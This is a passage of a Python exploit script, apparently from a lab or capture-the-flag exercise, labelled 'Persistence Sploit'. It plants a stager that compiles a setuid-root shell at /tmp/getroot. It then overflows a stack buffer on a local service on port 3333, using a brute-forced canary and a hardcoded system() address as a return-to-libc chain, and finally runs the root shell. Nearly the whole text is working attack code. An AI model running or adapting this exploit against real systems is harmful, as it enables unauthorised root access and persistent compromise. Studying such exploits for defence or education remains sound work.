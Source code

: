 ```python Persistence Sploit
    stager = """
        #!/bin/sh

        # First, prepare a small C shell and move it to /tmp with name getroot
        echo "int main(void)\n{\nsetuid(0);\nsystem(\\"/bin/sh\\");\nreturn 0;\n}" > /tmp/getroot.c

        # compile it
        /usr/bin/gcc /tmp/getroot.c -o /tmp/getroot

        # change ownership and setuid
        /bin/chown root:root /tmp/getroot
        /bin/chmod 4777 /tmp/getroot
    """

    # write the file
    with open('/tmp/log','w') as stager_file:
        stager_file.write(stager)

    # make it executable
    os.chmod('/tmp/log', 0755)

    # now, with the stack canary known and the stager ready, lets corrupt
    # EIP and sploit!
    payload += canary               # canary we bruted
    payload += "A" * 4              # padding to EIP wich is at byte 42
    payload += "\x10\x62\xe5\xb7"   # system() @ 0xb7e56210, NULL is ok cause memcpy(). Recheck location of system in gdb incase the sploit fails.
    payload += "JUNK"               # JUNK. Should probably do exit() here. Meh.
    payload += "\x60\x8c\x04\x08"   # location if /tmp/log string in .data

    # and connect && send
    print "[+] Connecting to service"
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(('127.0.0.1', 3333))
    sock.recv(35)
    sock.recv(40)
    sock.recv(5)
    print "[+] Sending Payload"
    sock.send(payload)

    sock.recv(64)
    sock.close()
    print "[+] Done"

    print "[+] going to try and spawn /tmp/getroot, assuming the sploit worked :)"
    os.system("/tmp/getroot")

else:
    print "[!] Incomplete Canary. Can't continue reliably"

# done
```
